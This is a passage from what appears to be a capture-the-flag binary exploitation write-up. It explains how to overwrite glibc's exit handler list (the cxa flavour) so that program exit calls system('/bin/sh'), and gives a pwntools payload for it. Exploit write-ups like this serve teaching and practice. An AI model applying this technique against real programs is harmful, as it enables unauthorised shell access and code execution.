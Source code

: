run it againts the remote server

<figure><img src="../../.gitbook/assets/image (106).png" alt="" width="351"><figcaption></figcaption></figure>



#### what if we don't have win ?

we'll then have to figure out how to execute `system(/bin/sh)`.

`exit_function` particularly have different function convention calls, we're interested in which where 1st parameter takes a `char *`, which corresponds to this type:

```c
  struct {
      void (*fn) (void *arg, int status);
      void *arg;
      void *dso_handle;
  } cxa;
```

`cxa` corresponds the 4th enum. we'll just have to pass `/bin/sh` to `*arg` which just right after the function pointer. we'll change our payload as follows:

```python
# overwriting exit funcs
fn = encrypt(win, libc.sym['system'])
payload = flat(
    0x0,    # *next
    0x1,    # count
    0x4,    # type/flavour (cxa)
    fn,     # *func ptr
    next(libc.search(b'/bin/sh\x00')), # rdi
    0x0,    # rsi
)
edit(12, payload)
```
